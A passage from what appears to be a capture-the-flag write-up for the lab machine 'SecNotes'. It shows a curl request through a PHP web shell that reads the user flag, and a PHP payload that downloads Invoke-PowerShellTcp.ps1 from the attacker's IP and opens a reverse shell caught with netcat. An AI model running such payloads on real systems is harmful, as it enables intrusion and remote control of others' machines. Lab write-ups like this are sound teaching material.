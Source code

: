 Now in order to get user we just need to navigate the system and get the hash. One thing to keep in mind is that if you use *curl* like me you need to use URL encoding, otherwise it won't work. I finally got user.txt by executing the following:

```
curl http://secnotes:8808/test.php?cmd=more+%5cUsers%5ctyler%5cDesktop%5cuser.txt
```

### Privilege escalation (administrator)

I started doing manual enumeration and quickly found out a directory in the root directory called ``\distros``, which contained Ubuntu. I thought it was strange and googled for a while until I found out that there is a new feature in Windows 10 which lets you have a Linux subsystem inside your windows machine. It is called *Windows Subsystem for Linux (WSL)*, you can find mor information [here](https://blogs.msdn.microsoft.com/commandline/2017/10/11/whats-new-in-wsl-in-windows-10-fall-creators-update/).

I also found out that *bash* can be installed as well and commands can be run with the following:

```console
.\bash.exe -c "command"
```

I looked for it and indeed found out there was a bash executable in the ``\Windows\System32`` directory. However, when I tried to execute any command I wouldn't get any output. I really needed to get a proper shell.

#### Reverse shell

After a lot of php reverse shells which resulted in failed attempts I decided to try with PowerShell ones (``Invoke-PowerShellTcp.ps1``).

So the thing I did was the following.

1. Upload a php script that contains PowerShell code.
2. With that PowerShell code make a request to my server to get the PowerShell reverse shell.
3. Launch the PowerShell once it is in the system.
4. Listen on another port with netcat for an incoming connection.

The PHP code was:

```php
<?php system("powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.13.151:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.13.151 -Port 1234"); ?>
```

For that I needed to set up a python server to serve the reverse shell, make a curl request to execute the PHP script and then listen with netcat.

Guess what? It worked!

Now I can run the executable and get output back!

*Bash.exe*

![Img](images/bash_works.png "Img")
